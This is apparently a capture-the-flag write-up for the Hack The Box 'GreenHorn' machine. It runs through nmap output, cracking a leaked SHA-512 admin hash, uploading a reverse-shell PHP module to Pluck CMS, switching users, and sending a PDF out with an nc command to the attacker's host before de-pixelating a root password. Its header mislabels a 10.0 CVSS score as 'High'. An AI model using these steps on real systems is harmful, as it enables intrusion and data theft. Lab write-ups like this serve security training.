


# CVSS 3.1 Score:10.0 (High)

### POC: 

I added `greenhorn.htb` to my hosts file.

Start with a basic scan using the command:

`nmap -sC -sV <IP ADRESS>`

`Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 13:31 EDT`
`Nmap scan report for greenhorn.htb (10.10.11.25)`
`Host is up (0.042s latency).`
`Not shown: 996 closed tcp ports (conn-refused)`
`PORT     STATE SERVICE VERSION`
`22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)`
`| ssh-hostkey:` 
`|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)`
`|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)`
`80/tcp   open  http    nginx 1.18.0 (Ubuntu)`
`|_http-generator: pluck 4.7.18`
`|_http-trane-info: Problem with XML parsing of /evox/about`
`| http-cookie-flags:` 
`|   /:` 
`|     PHPSESSID:` 
`|_      httponly flag not set`
`|_http-server-header: nginx/1.18.0 (Ubuntu)`
`| http-title: Welcome to GreenHorn ! - GreenHorn`
`|_Requested resource was http://greenhorn.htb/?file=welcome-to-greenhorn`
`| http-robots.txt: 2 disallowed entries` 
`|_/data/ /docs/`
`3000/tcp open  ppp?`
`| fingerprint-strings:` 
`|   GenericLines, Help, RTSPRequest:` 
`|     HTTP/1.1 400 Bad Request`
`|     Content-Type: text/plain; charset=utf-8`
`|     Connection: close`
`|     Request`
`|   GetRequest:` 
`|     HTTP/1.0 200 OK`
`|     Cache-Control: max-age=0, private, must-revalidate, no-transform`
`|     Content-Type: text/html; charset=utf-8`
`|     Set-Cookie: i_like_gitea=28fd3ff78614e003; Path=/; HttpOnly; SameSite=Lax`
`|     Set-Cookie: _csrf=_jmeqwQLwRtbXp-DdjMGWTeoAPI6MTcyMjUzMzUxNTM0Nzc0NTg0OQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax`
`|     X-Frame-Options: SAMEORIGIN`
`|     Date: Thu, 01 Aug 2024 17:31:55 GMT`
`|     <!DOCTYPE html>`
`|     <html lang="en-US" class="theme-auto">`
`|     <head>`
`|     <meta name="viewport" content="width=device-width, initial-scale=1">`
`|     <title>GreenHorn</title>`
`|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX`
`|   HTTPOptions:` 
`|     HTTP/1.0 405 Method Not Allowed`
`|     Allow: HEAD`
`|     Allow: HEAD`
`|     Allow: GET`
`|     Cache-Control: max-age=0, private, must-revalidate, no-transform`
`|     Set-Cookie: i_like_gitea=77b36d9374a96fa1; Path=/; HttpOnly; SameSite=Lax`
`|     Set-Cookie: _csrf=1_4kaR4JlNAkYnsmReDtYOIGyGI6MTcyMjUzMzUyMjA3MDUzNDAxMg; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax`
`|     X-Frame-Options: SAMEORIGIN`
`|     Date: Thu, 01 Aug 2024 17:32:02 GMT`
`|_    Content-Length: 0`
`8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)`
`1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :`
`SF-Port3000-TCP:V=7.94SVN%I=7%D=8/1%Time=66ABC689%P=x86_64-pc-linux-gnu%r(`
<.............>
`SF:lain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Req`
`SF:uest");`
`Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .`
`Nmap done: 1 IP address (1 host up) scanned in 136.32 seconds`

We have three open ports:

- 80/tcp open http
- 22/tcp open ssh
- 3000/tcp open ppp?

On port 80, we found a website we can visit.

By enumeration, we found a login page:

We attempted to enumerate the admin password but found there is a lock for brute force attempts.

![[Pasted image 20240801202835.png]]

We then checked port 3000:

`http://greenhorn.htb:3000/`

![[Pasted image 20240801202955.png]]

![[Pasted image 20240801203107.png]]

![[Pasted image 20240801203143.png]]

![[Pasted image 20240801203256.png]]

![[Pasted image 20240801203501.png]]

By exploring, we found admin files.

We checked the login check files and found the password stored in the `$ww` variable. We located the password hash and determined it was using the SHA-512 hash algorithm. Using `john` and `rockyou.txt`, we cracked the password to `iloveyou1`.

We then logged in to the admin panel.

![[Pasted image 20240801205631.png]]

Next, we navigated to the "Manage Modules" section and installed a module. We created a reverse shell PHP file, zipped it, and uploaded it. By listening on port 1111, we gained access to the system.

![[Pasted image 20240801210023.png]]

![[Pasted image 20240801210441.png]]

![[Pasted image 20240801210609.png]]
We made the shell more interactive and searched for files owned by the user "junior". We attempted to switch users using the previously found password and successfully accessed the user files.

![[Pasted image 20240801212100.png]]

![[Pasted image 20240801212200.png]]

Finally, we checked other files in the user folder and found a PDF document named "Using OpenVAS.pdf". We used `nc` to transfer the file and discovered the root password, which was blurred. Using the tool `depix` to de-pixelate the image, we retrieved the root password and gained root access.

`junior@greenhorn:~$ nc 10.10.16.102 1234 < 'Using OpenVAS.pdf'  
`nc 10.10.16.102 1234 < 'Using OpenVAS.pdf'`

`nc -lvp 1234 > 'Using OpenVAS.pdf'`  
`Listening on 0.0.0.0 1234`  
`Connection received on greenhorn.htb 46338``
``
![[Pasted image 20240801220319.png]]

![[Pasted image 20240801220008.png]]
